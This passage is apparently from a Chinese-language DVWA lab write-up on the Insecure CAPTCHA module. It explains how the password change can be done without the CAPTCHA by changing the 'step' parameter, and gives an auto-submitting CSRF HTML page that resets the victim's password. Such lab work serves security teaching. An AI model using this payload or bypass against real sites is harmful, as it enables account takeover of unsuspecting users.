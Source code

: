 可以看到,服务器将改密操作分成了两步,第一步检查用户输入的验证码,验证通过后,服务器返回表单,第二步客户端提交 post 请求,服务器完成更改密码的操作.但是,这其中存在明显的逻辑漏洞,服务器仅仅通过检查 Change、step 参数来判断用户是否已经输入了正确的验证码.


**通过构造参数绕过验证过程的第一步**

首先输入密码,点击 Change 按钮,抓包,更改 step 参数绕过验证码:

![](../../../../assets/img/安全/实验/Misc/dvwa/dvwa38.png)

ps:因为没有翻墙,所以没能成功显示验证码,发送的请求包中也就没有 recaptcha_challenge_field、recaptcha_response_field 两个参数

**CSRF**

由于没有任何的防 CSRF 机制,我们可以轻易地构造攻击页面,页面代码如下
```
<html>

<body onload="document.getElementById('transfer').submit()">

  <div>

    <form method="POST" id="transfer" action="http://<IP地址!!!>/dvwa/vulnerabilities/captcha/">

		<input type="hidden" name="password_new" value="password">

		<input type="hidden" name="password_conf" value="password">

		<input type="hidden" name="step" value="2"

		<input type="hidden" name="Change" value="Change">

	</form>

  </div>

</body>

</html>
```
